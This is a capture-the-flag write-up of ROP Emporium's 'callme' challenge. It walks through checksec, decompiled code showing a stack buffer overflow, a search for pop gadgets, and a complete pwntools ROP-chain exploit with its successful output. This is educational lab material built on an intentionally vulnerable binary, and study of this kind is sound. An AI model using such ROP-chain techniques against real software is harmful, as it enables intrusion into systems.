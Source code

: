 # callme

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ checksec callme    
[*] '/home/vein/rop_emporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./callme    
callme by ROP Emporium
x86_64

Hope you read the instructions...

> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("callme by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```
```c
void usefulFunction(void)

{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
We open Ghidra and we saw that a pwnme() function is called by the main. \
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long \
and the read() takes up to 512 = 0x200

# Exploitation
Challennge description says that to take the flag we must call \
callme_one(), callme_two() and callme_three() functions in that order, each with the arguments:
```text
0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```
To achieve this we want some rop gadgets to pop the values into the stack. \
For our luck, we found a hide funtion inside pwndbg that has the gadgets that we need. \
Either way we could found them with ropper.
```asm
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ gdb-pwndbg callme
Reading symbols from callme...
(No debugging symbols found in callme)
pwndbg: loaded 141 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret
End of assembler dump.
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./callme', checksec=False)
p = process()
context.log_level = 'info' # i put it in debug mode for when testing

offset = b'a' * 40 # found with pwndbg

# pop rdi; pop rsi; pop rdx; ret;
pop_gadgets = 0x40093c

payload1 = offset
payload1 += p64(pop_gadgets)
payload1 += p64(0xdeadbeefdeadbeef)
payload1 += p64(0xcafebabecafebabe)
payload1 += p64(0xd00df00dd00df00d)
payload1 += p64(elf.symbols.callme_one)

payload2 = p64(pop_gadgets)
payload2 += p64(0xdeadbeefdeadbeef)
payload2 += p64(0xcafebabecafebabe)
payload2 += p64(0xd00df00dd00df00d)
payload2 += p64(elf.symbols.callme_two)

payload3 = p64(pop_gadgets)
payload3 += p64(0xdeadbeefdeadbeef)
payload3 += p64(0xcafebabecafebabe)
payload3 += p64(0xd00df00dd00df00d)
payload3 += p64(elf.symbols.callme_three)

payload = payload1 + payload2 + payload3

p.sendlineafter(b'>', payload)
log.info(p.recvall())
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./exploit.py   
[+] Starting local process '/home/vein/rop_emporium/callme/callme': pid 12129
[+] Receiving all data: Done (105B)
[*] Process '/home/vein/rop_emporium/callme/callme' stopped with exit code 0 (pid 12129)
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
```
